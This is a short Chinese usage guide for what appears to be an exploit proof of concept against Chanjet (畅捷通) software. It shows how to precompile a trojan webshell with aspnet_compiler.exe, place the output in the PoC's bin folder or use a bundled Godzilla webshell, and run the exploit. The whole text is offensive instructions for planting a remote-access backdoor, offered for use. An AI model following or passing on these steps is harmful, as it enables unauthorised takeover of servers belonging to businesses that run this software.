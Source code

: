 # 使用说明

由于畅捷通整套程序用了预编译，所以需要将shell进行预编译处理

CMD 命令执行
`C:\WINDOWS\Microsoft.NET\Framework\v2.0.50727\aspnet_compiler.exe -v / -p (木马文件目录) (生成预编译文件目录) -fixednames`

<image src="images/1.png">

将bin文件中的两个文件移动到poc目录下的bin文件中
<image src="images/2.png">

也可以使用bin中自带的哥斯拉shell
<image src="images/3.png">

然后运行poc即可

